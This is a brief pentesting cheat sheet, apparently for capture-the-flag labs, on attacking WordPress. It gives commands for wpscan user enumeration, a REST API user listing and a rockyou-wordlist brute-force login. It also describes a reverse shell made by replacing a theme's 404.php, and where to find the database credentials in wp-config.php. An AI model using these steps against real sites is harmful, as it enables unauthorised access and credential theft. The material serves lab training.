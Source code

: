 # Info 
Popular Blog CMS

check website location (`/var/www/html/wordpress`) for config file for database login information. `wp-config.php` 

- /wp-login.php

---

# wpscan

## Find Users with built in API
```txt
http://blog.thm/wp-json/wp/v2/users
```

## Enumerate users
```bash
wpscan --url http://blog.local:8080/wordpress -e u
```

## Brute-force login
```bash
wpscan --url http://blog.thm --usernames kwheel --passwords /usr/share/wordlists/rockyou.txt
```

## Reverse shell
1. Appearance > Edit > Themes
1. 404.php
2. replace with php reverse shell

/wordpress/wp-content/themes/*oceanwp*/404.php
